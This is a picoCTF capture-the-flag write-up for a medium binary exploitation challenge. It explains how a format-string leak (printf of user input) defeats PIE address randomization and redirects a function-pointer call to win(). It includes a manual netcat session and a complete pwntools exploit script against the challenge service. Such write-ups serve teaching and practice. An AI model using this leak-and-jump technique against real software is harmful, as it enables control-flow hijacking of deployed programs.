


>> Write-up — PIE TIME 2 (picoCTF)

**Challenge:** rescued-float — PIE / info-leak

**Category:** Binary Exploitation — PIE / ASLR bypass via info leak

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Medium


### Summary: 

+ This challenge contained a small 64-bit PIE binary (`vuln`) with a format-string bug and a simple function `win()` that prints the flag. Because the binary is position-independent (PIE/ASLR), function addresses are randomized each run — so we must leak a runtime address from the same process and compute `win()`’s runtime address from that leak. We exploited the format-string vulnerability (`printf(buffer)`) to leak a pointer, used a fixed offset (extracted from the local binary) to compute `win()`’s address, then passed that address to the program which calls it as a function pointer — producing the flag.

### Vulnerability

+ In `call_functions()` the code does:
```c
fgets(buffer, 64, stdin);
printf(buffer);
```

+ Passing user data directly as the `printf` format string creates a format-string vulnerability: the attacker can supply `%p`/`%19$p` to print stack/call-context pointers. The program then does:

```c
scanf("%lx", &val);
void (*foo)(void) = (void (*)())val;
foo();
```

+ So if we can compute the runtime address of `win()` for the current process, we can simply input that address and have the program call `win()`.

---

### Key idea / exploitation plan

1) Disassemble the local binary to find the offsets between known code locations:
+ find the offset of `main` and `win` or the offset between the leaked return address and `win`.

2) Connect to the remote service and use the format-string (`%19$p`) to leak a runtime pointer that sits inside the binary image (this gives us a value of the form `base + constant`).

3) Use the offset from step (1) to convert the leaked pointer into the runtime address of `win()`:

```ini
win_addr = leaked - OFFSET_SUB
```

+ (In this challenge the required subtraction was 0xd7 in hex; that value comes from disassembly of the local `vuln`.)

4) Send the computed `win_addr` to the service. The program casts that value to a function pointer and calls it. If the calculation is correct, `win()` runs and prints the flag.

---

### How the offsets were obtained (short)

Run `objdump -d vuln` (local binary) and locate `<main>` and `<win>` addresses. From the disassembly we deduced the constant difference needed to convert the leaked pointer to the `win()` address. In our runs that constant was `0xd7` (decimal 215), so `target = leaked - 0xd7`.

> Important: you must get these offsets from the same binary file that the server runs. If offsets differ, your calculation will be wrong and the program will segfault.

--- 

### Example manual session

+ Connect:
```bash
$ nc rescued-float.picoctf.net <Random Port> #Example: 54102
Enter your name:
```


+ Leak:
```perl
%19$p
0x5773bde75441
```

+ Compute target (`leaked - 0xd7`):
```python
python3 - <<'PY'
print(hex(int("0x5773bde75441",16) - 0xd7))
PY
# => 0x5773bde7536a
```

+ Paste the computed value when the program asks for the address:
```bash
0x5773bde7536a
```

+ Program prints:
```bash
You won!
picoCTF{...}
```

---

### Automated Python exploit

+ The following pwntools script automates the steps: it connects, leaks with %19$p, parses the leak, computes win() as leaked - OFFSET_SUB, sends the address, and prints the service output. Change OFFSET_SUB if your local disassembly yields a different value.

```python
#!/usr/bin/env python3
# exploit_auto.py — Automatic: leak -> compute -> jump to win()
from pwn import *
import re
import sys

if len(sys.argv) < 2:
    print("Usage: python3 exploit_auto.py <port>")
    sys.exit(1)

HOST = "rescued-float.picoctf.net"
PORT = int(sys.argv[1])

# If your local offset differs, change this value.
# This value was derived from the local disassembly (leaked_value - win_address).
OFFSET_SUB = 0xd7  # 0xd7 = 215 decimal

context.log_level = "info"
context.timeout = 6

def exploit_once():
    try:
        p = remote(HOST, PORT, timeout=6)
    except Exception as e:
        print("[!] Could not connect:", e)
        return False

    # Wait for the name prompt
    try:
        p.recvuntil(b"Enter your name:", timeout=4)
    except Exception:
        pass

    # Leak using the tested index (%19$p)
    p.sendline(b"%19$p")

    # Read until the next ":" prompt or a short timeout
    data = b""
    try:
        data = p.recvuntil(b":", timeout=3)
    except Exception:
        try:
            data = p.recv(timeout=2)
        except Exception:
            pass

    print("Leaked snippet:", data.decode(errors="ignore"))

    m = re.search(rb'0x[0-9a-fA-F]+', data)
    if not m:
        print("[!] No leak found — the index may be different.")
        p.close()
        return False

    leaked = int(m.group(0), 16)
    print(f"[+] leaked = {hex(leaked)}")

    # Compute the win() address for this run
    target = leaked - OFFSET_SUB
    print(f"[+] Calculated win target = {hex(target)}")

    # Ensure we've consumed the address prompt (if not already)
    try:
        p.recvuntil(b":", timeout=2)
    except Exception:
        pass

    # Send the computed address
    p.sendline(hex(target).encode())

    # Read output (flag or segfault message)
    try:
        out = p.recvall(timeout=4)
    except Exception:
        out = b""

    if out:
        print("=== Service output ===")
        print(out.decode(errors="ignore"))
        s = out.decode(errors="ignore").lower()
        if "you won" in s or "picoctf" in s or "flag" in s:
            print("[+] Likely got the FLAG.")
            p.close()
            return True
    else:
        print("[*] No output received (the service may have closed).")

    p.close()
    return False

if __name__ == "__main__":
    ok = exploit_once()
    if not ok:
        print("[!] Attempt finished but did not succeed. Try again (each new session requires a fresh leak).")
```

### Usage:

+ Save as `exploit_auto.py`.

+ Install pwntools if needed: `pip install pwntools`.

+ Run:
```bash
python exploit_auto.py 59006
```
+ (replace `59006` with the challenge port if different)



